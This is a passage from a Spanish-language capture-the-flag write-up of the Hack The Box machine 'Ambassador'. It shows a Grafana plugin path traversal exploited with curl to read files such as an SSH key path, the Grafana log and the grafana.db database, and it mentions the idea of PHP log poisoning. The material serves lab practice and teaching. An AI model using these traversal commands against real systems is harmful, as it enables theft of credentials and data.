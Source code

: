 En el puerto 80 daban una pista (CTF-like) que diciendo que tengo que ganar acceso por SSH como el usuario developer. Pruebo a traerme su id_rsa, pero no exite.

```null
curl 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../home/developer/.ssh/id_rsa' --path-as-is
{"message":"Could not open plugin file"}
```

Para aquellos que si que existen pero no tengo acceso aparece otro error

```null
curl 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../proc/net/fib_trie' --path-as-is
seeker can't seek
```

En la web de instalación de Grafana, se pueden ver las rutas de los archivos de configuración

<img src="/writeups/assets/img/Ambassador-htb/3.png" alt="">

Hay un archivo de LOGS. Podría tratar de inyectar una sentencia en PHP y ver si me la interpreta, pero no tengo ningún campo que pueda modificar fácilmente como el User-Agent

```null
curl 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../var/log/grafana/grafana.log' --path-as-is
```

Puedo ver el error de falta de acceso a la id_rsa

```null
t=2023-02-02T09:57:57+0000 lvl=eror msg="Could not open plugin file" logger=context userId=0 orgId=0 uname= error="open /home/developer/.ssh/id_rsa: permission denied"
```

Puedo descargarme un archivo de base de datos en SQLite3

```null
curl 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../var/lib/grafana/grafana.db' --path-as-is
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
curl -s 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../var/lib/grafana/grafana.db' --path-as-is -o grafana.db
```
